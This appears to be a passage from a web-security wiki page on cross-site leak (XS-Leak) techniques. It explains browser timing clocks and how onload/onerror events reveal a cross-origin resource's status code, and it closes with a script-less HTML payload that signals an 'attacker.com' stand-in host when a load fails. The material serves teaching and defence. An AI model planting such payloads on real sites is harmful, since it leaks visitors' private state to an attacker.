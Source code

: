 \
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=bytebreach) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=bytebreach" %}

## **Timing Based techniques**

Some of the following techniques are going to use timing to as part of the process to detect differences in the possible states of the web pages. There are different ways to measure time in a web browser.

**Clocks**: The [performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now) API allows developers to get high-resolution timing measurements.\
There are a considerable number of APIs attackers can abuse to create implicit clocks: [Broadcast Channel API](https://developer.mozilla.org/en-US/docs/Web/API/Broadcast\_Channel\_API), [Message Channel API](https://developer.mozilla.org/en-US/docs/Web/API/MessageChannel), [requestAnimationFrame](https://developer.mozilla.org/en-US/docs/Web/API/window/requestAnimationFrame), [setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout), CSS animations, and others.\
For more info: [https://xsleaks.dev/docs/attacks/timing-attacks/clocks](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/).

## Event Handler Techniques

### Onload/Onerror

* **Inclusion Methods**: Frames, HTML Elements
* **Detectable Difference**: Status Code
* **More info**: [https://www.usenix.org/conference/usenixsecurity19/presentation/staicu](https://www.usenix.org/conference/usenixsecurity19/presentation/staicu), [https://xsleaks.dev/docs/attacks/error-events/](https://xsleaks.dev/docs/attacks/error-events/)
* **Summary**: if trying to load a resource onerror/onload events are triggered with the resource is loaded successfully/unsuccessfully it's possible to figure out the status code.
* **Code example**: [https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)](https://xsinator.com/testing.html#Event%20Handler%20Leak%20\(Script\))

{% content-ref url="cookie-bomb-+-onerror-xs-leak.md" %}
[cookie-bomb-+-onerror-xs-leak.md](cookie-bomb-+-onerror-xs-leak.md)
{% endcontent-ref %}

The code example try lo **load scripts objects from JS**, but **other tags** such as objects, stylesheets, images, audios could be also used. Moreover, it's also possible to inject the **tag directly** and declare the `onload` and `onerror` events inside the tag (instead of injecting it from JS).

There is also a script-less version of this attack:

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```
